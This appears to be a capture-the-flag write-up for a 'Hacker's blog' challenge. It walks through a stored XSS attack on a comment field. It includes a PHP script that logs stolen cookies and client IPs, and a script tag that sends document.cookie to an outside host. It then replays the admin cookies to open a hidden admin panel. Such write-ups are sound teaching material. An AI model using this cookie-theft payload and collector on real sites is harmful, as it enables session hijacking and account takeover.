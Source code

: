 ﻿# Hacker's blog

Web-site:
![Site](/img/1.png)

1. Go to a hacker's blog, see the articles. Go to any article and find comments.
2. Try to write something. See that there is pre-moderation (10 min) - then the admin looks at comments and deletes bad comments.
3. Try XSS attack. Write a simple code to accept cookies on your web server:
```php
<?php
$text = urldecode($_SERVER['QUERY_STRING']);
if (!empty($_SERVER['HTTP_CLIENT_IP'])) 
{
	$ip=$_SERVER['HTTP_CLIENT_IP'];
}
elseif (!empty($_SERVER['HTTP_X_FORWARDED_FOR']))
{
	$ip=$_SERVER['HTTP_X_FORWARDED_FOR'];
}
else
{
	$ip=$_SERVER['REMOTE_ADDR'];
}
$file=fopen("file.txt", "a");
fwrite ($file, $text.PHP_EOL);
fwrite ($file, $ip.PHP_EOL);
fclose($file);
?>
```
5. Write in the text field the JS to steal cookies:
```js
<script>var img=new Image();img.src="http://site.ru/xss.php?"+ encodeURI(document.cookie);</script>
```
4. Get cookies `password=e0377f6e85d987d81e96c0381c789360fe90547bdf9be3b5082a492b9c4184f7; login=admin`
5. Now you need somewhere to apply cookies. Are looking for it or admin authorization. On any page, you can find review: `Secret admin panel: aHR0cDovLzEwLjAuNy4yMTY6NTQzMzcvywrtaw42ndy0ms5waha=`. Decode base64 - http://10.0.7.216:54337/admin64641.php
6. We see the inscription: "Неверный логин или пароль! Доступ запрещен!". Use any extension to assign cookies. For Firefox https://addons.mozilla.org/ru/firefox/addon/cookies-manager-plus/developers
7. On the page `admin64641.php` see the flag.
